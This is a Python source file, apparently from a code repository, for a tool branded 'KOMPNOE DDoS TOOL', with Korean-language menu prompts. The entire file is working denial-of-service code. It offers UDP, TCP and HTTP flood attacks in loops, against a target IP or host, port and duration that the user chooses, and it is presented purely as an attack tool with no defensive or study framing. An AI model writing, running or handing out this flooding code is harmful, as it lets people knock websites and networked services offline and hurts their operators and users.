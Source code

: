 import socket
import random
import time
import threading
import os
from colorama import init, Fore, Style
import http.client

init(autoreset=True)

ascii_logo = r"""
██╗  ██╗ ██████╗ ███╗   ███╗██████╗  ██████╗ ███╗   ██╗███████╗
██║ ██╔╝██╔═══██╗████╗ ████║██╔══██╗██╔═══██╗████╗  ██║██╔════╝
█████╔╝ ██║   ██║██╔████╔██║██║  ██║██║   ██║██╔██╗ ██║█████╗  
██╔═██╗ ██║   ██║██║╚██╔╝██║██║  ██║██║   ██║██║╚██╗██║██╔══╝  
██║  ██╗╚██████╔╝██║ ╚═╝ ██║██████╔╝╚██████╔╝██║ ╚████║███████╗
╚═╝  ╚═╝ ╚═════╝ ╚═╝     ╚═╝╚═════╝  ╚═════╝ ╚═╝  ╚═══╝╚══════╝
             >>> KOMPNOE DDoS TOOL <<<
"""

purple_colors = [
    Fore.LIGHTMAGENTA_EX,
    Fore.MAGENTA,
    Fore.LIGHTWHITE_EX
]

def animate_intro():
    for _ in range(3):
        for color in purple_colors:
            os.system('cls' if os.name == 'nt' else 'clear')
            print(color + ascii_logo + Style.RESET_ALL)
            time.sleep(0.2)
    os.system('cls' if os.name == 'nt' else 'clear')
    print(Fore.LIGHTMAGENTA_EX + ascii_logo + Style.RESET_ALL)
    input(Fore.LIGHTWHITE_EX + "\n>> Press [Enter] to show menu..." + Style.RESET_ALL)

def show_menu():
    os.system('cls' if os.name == 'nt' else 'clear')
    print(Fore.LIGHTMAGENTA_EX + ascii_logo + Style.RESET_ALL)
    print(Fore.LIGHTWHITE_EX + "\n1번은 UDP Flood\n2번은 TCP Flood\n3번은 HTTP Flood" + Style.RESET_ALL)

def udp_flood(target_ip, target_port, duration):
    print(f"\n[+] Starting UDP Flood on {target_ip}:{target_port} for {duration} seconds")
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    payload = random._urandom(1024)
    timeout = time.time() + duration
    sent = 0
    while time.time() < timeout:
        try:
            sock.sendto(payload, (target_ip, target_port))
            sent += 1
        except:
            break
    print(f"\n[*] UDP Flood finished. Packets sent: {sent:,}")

def tcp_flood(target_ip, target_port, duration):
    print(f"\n[+] Starting TCP Flood on {target_ip}:{target_port} for {duration} seconds")
    timeout = time.time() + duration
    sent = 0
    while time.time() < timeout:
        try:
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.connect((target_ip, target_port))
            sock.send(random._urandom(1024))
            sock.close()
            sent += 1
        except:
            pass
    print(f"\n[*] TCP Flood finished. Connections attempted: {sent:,}")

def http_flood(target_host, duration):
    print(f"\n[+] Starting HTTP Flood on {target_host} for {duration} seconds")
    timeout = time.time() + duration
    sent = 0
    while time.time() < timeout:
        try:
            conn = http.client.HTTPConnection(target_host, timeout=2)
            conn.request("GET", "/")
            conn.getresponse()
            sent += 1
            conn.close()
        except:
            pass
    print(f"\n[*] HTTP Flood finished. Requests sent: {sent:,}")

def attack_menu():
    while True:
        show_menu()
        choice = input("\n>> 공격 타입을 선택하세요 (1/2/3): ")

        if choice == '1':
            ip = input("Target IP: ")
            port = int(input("Port: "))
            dur = int(input("Duration (sec): "))
            udp_flood(ip, port, dur)
        elif choice == '2':
            ip = input("Target IP: ")
            port = int(input("Port: "))
            dur = int(input("Duration (sec): "))
            tcp_flood(ip, port, dur)
        elif choice == '3':
            host = input("Target Host (example.com): ")
            dur = int(input("Duration (sec): "))
            http_flood(host, dur)
        else:
            print("[!] 잘못된 선택입니다. 1, 2, 3 중에서 선택하세요.")
            time.sleep(2)
            continue

        again = input("\n다시 공격할까요? (y/n): ").lower()
        if again != 'y':
            print("\n[*] KOMPNOE TOOL 종료합니다.")
            break
        else:
            animate_intro()
            # 메뉴는 attack_menu 내에서 바로 출력되므로 추가 input 없이 진행

if __name__ == "__main__":
    animate_intro()
    attack_menu()
